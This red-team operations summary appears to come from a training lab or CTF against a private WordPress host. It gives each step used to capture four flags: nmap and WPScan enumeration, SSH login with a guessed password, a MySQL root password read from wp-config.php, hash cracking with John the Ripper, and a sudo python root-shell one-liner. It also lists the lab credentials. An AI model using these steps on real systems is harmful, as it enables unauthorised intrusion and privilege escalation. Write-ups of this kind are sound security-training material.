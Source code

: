 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -O -sV 192.168.1.110
```
![Target 1 nmap scan](/images/1.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH (TCP port 22) - OpenSSH 6.7p1
  - HTTP (TCP port 80) - Apache 2.4.10
  - rpcbind (TCP port 111) - 2-4 (RPC #100000)
  - netbios-ssn (TCP port 139) - Samba 3.X - 4.X
  - microsoft-ds (TCP port 445) - Samba 3.X - 4.X

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WPScan.
  - Weak user passwords (easily guessable).
  - Poor directory access control.
  - Sensetive information in publically viewable files.
  - Privilege escalation via sudo access to python.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate publically accessible users for the wordpress server.
      - wpscan --url 192.168.1.110/wordpress --enumerate u
      - ![WPScan users result]()

      - Guessed password for user michael to gain access to server via SSH.
      - Password: michael
      - ![SSH access gained]()

      - Navigated to /var/www/html and used `cat` to find flag1.
      - ![Flag1]()

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - While logged in as user michael, navigated to /var/www (default directory for apache websites) and used cat to obtain flag.
      - `cd /var/www`
      - `cat flag2.txt`
      - ![Flag 2]()

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Found the MySQL root user password in /var/www/html/wordpress/wp-config.php.
      - `cd /var/www/html/wordpress`
      - `cat wp-config.php`
      - Root password: R@v3nSecurity
      - ![wp-config.php]()

      - Using the root credentials, logged into the MySQL database and manually checked all tables. Flag 3 found in wp_posts
      - `mysql -u root -p`
      - `SHOW DATABASES;`
      - `USE wordpress;`
      - `SHOW TABLES;`
      - `SELECT * FROM wp_posts;`
      - ![Flag 3]()

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Found user hashes within the MySQL database table `wp_users` for users `michael` and `steven`. Used `john the ripper` to crack the hash for `steven`.
      - `SELECT * FROM wp_users;`
      - ![wp_users]()

      - `john wp_hashes.txt`
      - Password: pink84
      - ![john]()

      - Logged in as user `steven` onto the server and checked if user had sudo permissons.
      - `ssh steven@192.168.1.110`
      - `sudo -l`
      - ![steven ssh & sudo]()

      - Used the below python script to elevate permissions to the `root` user, navigated to the `root` user's home directory and used `cat` to obtain flag4.
      - `sudo python -c 'import os; os.system("/bin/sh")'`
      - `cd ~`
      - `cat flag4.txt`
      - ![flag4]()

